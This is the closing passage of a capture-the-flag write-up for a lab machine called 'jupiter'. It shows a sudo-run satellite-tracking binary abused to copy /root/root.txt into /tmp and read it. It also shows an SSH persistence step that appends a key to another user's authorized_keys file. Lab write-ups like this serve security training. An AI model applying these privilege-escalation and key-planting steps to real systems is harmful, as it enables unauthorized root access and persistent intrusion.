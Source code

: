 ```
  "name",
  "azel",
  "dis",
  "geo",
  "tab",
  "pos",
  "vel"
 ]
}

```

# Obtaining root flag
Finally, executing the binary will then give us the root flag

```
jovian@jupiter:/opt/solar-flares$ sudo /usr/local/bin/sattrack
sudo /usr/local/bin/sattrack
Satellite Tracking System
Get:0 file:///root/root.txt
Get:1 http://celestrak.org/NORAD/elements/noaa.txt
Could not resolve host: celestrak.org
Get:1 http://celestrak.org/NORAD/elements/gp.php?GROUP=starlink&FORMAT=tle
Could not resolve host: celestrak.org
tlefile is not a valid file
jovian@jupiter:/opt/solar-flares$ cat /tmp/tle/root.txt
cat /tmp/tle/root.txt
<root flag>
```
# Alternative privilege escalation for Juno
An alternative way of escalating privilege for Juno would be to add our own private key to /home/juno/.ssh/authorized_keys.

```
juno@jupiter:~/.ssh$ echo "<public key>" >> authorized_keys
```

Afterwards, we can use our own private key to get access as juno user.
